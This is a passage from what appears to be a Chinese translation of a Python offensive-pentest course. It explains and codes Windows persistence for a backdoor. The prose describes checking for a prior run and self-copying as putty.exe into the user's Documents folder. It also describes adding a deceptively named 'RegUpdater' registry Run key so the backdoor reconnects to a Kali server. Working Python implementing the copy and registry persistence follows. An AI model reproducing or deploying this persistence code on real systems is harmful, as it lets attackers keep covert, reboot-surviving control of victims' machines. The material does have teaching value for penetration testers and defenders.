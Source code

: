 从逻辑上讲，我们将从系统侦察阶段开始，这一阶段的输出将包括两项内容。首先，我们将发现我们的 shell 当前的工作目录，并找出用户配置文件。第二个输出应该是目标路径。接下来，我们需要判断是否第一次在目标机器上运行。你可能会问，我们怎么做到这一点呢？答案要感谢 OS 库，它简化了我们的任务。为了实现这一点，我们只需检查脚本是否存在于目标路径中。如果存在，那么这就不是我们第一次到达目标机器，因为我们已经完成了前两个阶段。所以，我们将跳过第一和第二阶段，直接启动 shell。

然而，如果这是我们第一次在目标机器上运行，我们将把自身复制到目标路径，这就是我们在第一阶段所做的。然后，我们将添加一个新的注册表键，指向这个位置，这就是这里的第二阶段。最后，我们需要确保我们能够重新连接到 Kali 服务器。在接下来的两个部分中，你将看到所有步骤的实际操作，以更清楚地理解这个概念。为了便于理解，我们将把编码部分分成两部分。在第一部分，我们将使 `putty.exe` 持久化，在第二部分，我们将完成并将持久化脚本与之前的 HTTP 反向 shell 集成。

# 使 `putty.exe` 持久化

在本节中，我们将使 `putty.exe` 程序持久化。你可以在 Google 上搜索并免费下载 PuTTY 软件。正如我们之前所解释的，我们的脚本将从执行系统侦察开始，这一阶段的输出将是当前的工作目录或用户配置文件的目标位置。

现在，让我们将这个阶段翻译成一段代码，如下所示——这些行将为我们执行侦察阶段：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Persistence

import os # needed for getting working directory
import shutil # needed for file copying
import subprocess # needed for getting user profile
import _winreg as wreg # needed for editing registry DB

# Reconn Phase

path = os.getcwd().strip('/n') #Get current working directory where the backdoor gets executed, we use the output to build our source path

Null,userprof = subprocess.check_output('set USERPROFILE', shell=True).split('=')
#Get USERP ROFILE which contains the username of the profile and store it in userprof variable , we use the output to build our destination path
#Other way to discover the userprofile is via os.getenv('userprofile') , both will give the same result 

destination = userprof.strip('\n\r') + '\\Documents\\' +'putty.exe'
#build the destination path where we copy your backdoor - in our example we choosed C:\Users\<UserName>\Documents\

# First and Second Phases

if not os.path.exists(destination): # this if statement will be False next time we run the script because our putty.exe will be already copied in destination 

    #First time our backdoor gets executed
    #Copy our Backdoor to C:\Users\<UserName>\Documents\
    shutil.copyfile(path+'\putty.exe', destination)

    key = wreg.OpenKey(wreg.HKEY_CURRENT_USER, "Software\Microsoft\Windows\CurrentVersion\Run",0,
                         wreg.KEY_ALL_ACCESS)
    wreg.SetValueEx(key, 'RegUpdater', 0, wreg.REG_SZ,destination)
    key.Close()
    #create a new registry string called RegUpdater pointing to our
    #new backdoor path (destination)

#If the script worked fine, out putty.exe should be copied to C:\Users\<UserName>\Documents\ and a new registry key called 'RegUpdater' should be created
#and pointing to C:\Users\<UserName>\Documents\putty.exe 
```
